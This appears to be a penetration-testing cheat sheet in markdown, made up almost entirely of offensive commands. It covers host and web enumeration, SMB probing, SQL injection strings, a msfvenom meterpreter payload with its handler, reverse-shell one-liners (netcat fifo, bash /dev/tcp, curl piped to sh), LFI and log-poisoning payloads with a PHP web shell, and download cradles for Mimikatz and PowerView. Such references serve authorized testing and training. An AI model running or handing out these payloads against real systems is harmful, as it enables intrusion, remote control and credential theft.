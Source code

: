 # Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

#### Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

#### FFUF
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` 	Directory Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` 	Extension Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/dir/FUZZ.php` 	Page Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` 	Recursive Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.domain.com/` 	Sub-domain Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://domain.htb:PORT/ -H 'Host: FUZZ.domain.com' -fs xxx` 	VHost Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php?FUZZ=key -fs xxx` 	Parameter Fuzzing - GET
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` 	Parameter Fuzzing - POST
- `ffuf -w ids.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT 9998`
- `run`

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

###### Web enumeration

LFI
- `http://10.0.0.1/?page=index.php`
- `http://10.0.0.1/?page=../../../etc/passwd`
- `http://10.0.0.1/?page=php://filter/convert.base64-encode/resource=index.php`

Log injection 
- change user agent
- `<?php system($_GET['cmd']); ?>`
- `http://10.0.0.1/?page=../../../var/apache2/access.log?cmd=wget%20http://IP:PORT/shell.php`
- `expect://id`
- `curl -s -X POST --data "<?php system('id'); ?>" "http://10.0.0.1:80/index.php?language=php://input"`

###### Download files

- `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
- `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
- `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
- `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
- `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`



